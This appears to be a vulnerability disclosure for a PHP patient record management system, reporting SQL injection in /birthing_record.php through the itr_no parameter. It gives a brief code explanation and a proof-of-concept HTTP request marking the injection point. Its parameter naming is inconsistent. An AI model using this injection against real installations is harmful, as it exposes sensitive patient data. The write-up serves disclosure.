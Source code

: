 # cve

# patient-record-management-system-in-php has sql injection in /birthing_record.php

## Vulnerability parameter

/birthing_record.php

## describe

An unrestricted SQL injection attack exists in patient-record-management-system-in-php in /birthing_record.php. The parameters that can be controlled are as follows: $a. This function executes the id parameter into the SQL statement without any restrictions. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.

**Code analysis**    

When the value of $a parameter is obtained in /birthing_record.php , it will be concatenated into SQL statements and executed, which has a SQL injection vulnerability. 

## POC

```
GET /birthing_record.php?itr_no=1* HTTP/1.1
Host: healthcarepatientrecordmanagementsystem
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: PHPSESSID=apub8ggoc8777fmi1n9sbu6ca1
Upgrade-Insecure-Requests: 1
Priority: u=0, i


```

**Result**

![image-20241226013405312](https://github.com/user-attachments/assets/fd4a6d5f-7c7d-418d-8db1-2bbd2d5bc9a0)
